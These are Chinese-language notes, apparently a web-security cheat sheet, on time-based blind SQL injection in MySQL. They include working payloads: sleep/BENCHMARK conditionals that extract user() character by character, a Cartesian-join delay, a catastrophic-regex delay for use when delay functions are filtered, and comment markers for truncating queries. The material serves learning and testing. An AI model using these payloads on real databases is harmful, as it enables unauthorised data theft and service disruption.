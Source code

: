 ```sql

ASCII() #函数返回特定字符的ASCII值。如果输入了多个字符，则只返回第一个字符的值

ORD() 函数返回字符串第一个字符的 ASCII 值。

CHAR()	返回每一个传入的整数所对应的字符

CHAR_LENGTH(); #返回str的长度

hex() #转16进制

bin() #转2进制

```



## 延时盲注

相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。
一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`



BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

```sql
select if ((substr(user(),1,1)='r'),benchmark(109999990,md5("dasdawdasd")),0);
```



**如果两个函数sleep和benchamark都被ban掉的话**，

**方法一**：可以使用表之间的笛卡尔积造成延时效果；

```sql
 select if((substr("a",1,1)='a'),(select count(*) from information_schema.columns join information_schema.schemata join information_schema.tables),1);
```



**方法二**：不正确的正则表达式

```sql
select if(substr((select 1)='1',1,1),concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',1)
```



## mysql注释符

```sql
1. -- -
2. -- +
3. /*....*/
4. `
5.
```

